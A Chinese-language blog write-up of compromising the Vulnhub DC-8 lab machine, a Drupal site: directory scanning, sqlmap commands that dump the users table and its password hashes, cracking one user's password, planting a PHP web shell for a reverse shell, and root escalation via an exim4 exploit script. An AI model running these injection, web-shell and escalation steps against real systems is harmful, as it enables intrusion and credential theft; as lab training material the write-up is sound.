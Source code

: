 ```yaml
---
layout: mypost
title: Vulnhub靶机DC8渗透
categories: [靶机]
---
```


靶机下载地址：[DC8](https://www.vulnhub.com/entry/dc-8,367/)

Kali Linux 地址：192.168.43.110

![](https://z3.ax1x.com/2021/04/28/gi2uu9.png)

DC8 地址：192.168.43.147

访问 web 页面

![](https://z3.ax1x.com/2021/04/28/gi2MH1.png)

又见 drupal

![](https://z3.ax1x.com/2021/04/28/gi2qKJ.png)

dirb 扫目录

![](https://z3.ax1x.com/2021/04/28/gihow9.png)

/admin 被 ban

![](https://z3.ax1x.com/2021/04/28/gi4CFI.png)

/robots.txt 可以访问

![](https://z3.ax1x.com/2021/04/28/gi4t0J.png)

/user 后台确认

![](https://z3.ax1x.com/2021/04/28/gi4N79.png)

跟随作者提示，不爆破

![](https://z3.ax1x.com/2021/04/28/gi5GCt.png)

Details 下三个页面似乎存在 sql 注入

![](https://z3.ax1x.com/2021/04/28/gioCk9.png)

手测

![](https://z3.ax1x.com/2021/04/28/gi7bYd.png)

确认，放 sqlmap 去跑

爆库

```bash
sqlmap -u http://192.168.43.147/?nid=1%27 --dbs
```

![](https://z3.ax1x.com/2021/04/28/gi7zm8.png)

爆表

```bash
sqlmap -u http://192.168.43.147/?nid=1%27 -D d7db --tables
```

![](https://z3.ax1x.com/2021/04/28/giHPYj.png)

爆字段

```bash
sqlmap -u http://192.168.43.147/?nid=1%27 -D d7db -T users --columns
```

![](https://z3.ax1x.com/2021/04/28/giHKk4.png)

爆值

```bash
sqlmap -u http://192.168.43.147/?nid=1%27 -D d7db -T users -C "name,pass" --dump
```

![](https://z3.ax1x.com/2021/04/28/giH86x.png)

```hash
admin | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
john  | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

john 爆 hash

![](https://z3.ax1x.com/2021/04/28/giHLEF.png)

只得到 john 的密码 turtle

![](https://z3.ax1x.com/2021/04/28/giHX4J.png)

发现这里有机会反弹 shell

![](https://z3.ax1x.com/2021/04/28/giq0yt.png)

传个一句话🐎，保存配置

> 自带的格式不要删除，否者会后端读取的时候会报错导致无法执行 php 代码

随便写点提交

![](https://z3.ax1x.com/2021/04/28/giqzm6.png)

![](https://z3.ax1x.com/2021/04/28/giLpTO.png)

成功上线，用 python 获取标准交互 shell

发现 find 可用

![](https://z3.ax1x.com/2021/04/28/giLn78.png)

exim4 可疑，查看版本

![](https://z3.ax1x.com/2021/04/28/giL8cn.png)

![](https://z3.ax1x.com/2021/04/28/giLD39.png)

经测试 46996.sh 可用

![](https://z3.ax1x.com/2021/04/28/giLgHK.png)

靶机下载直接用有 unix 兼容问题，改了还报错

直接单纯把代码部分提取出来测试

```bash
chmod 777 root.sh
./root.sh
```

![](https://z3.ax1x.com/2021/04/29/giXzmq.png)

可行

```bash
./root.sh -m netcat
```

同样在  /root 下

![](https://z3.ax1x.com/2021/04/29/gijS00.png)

Pwned！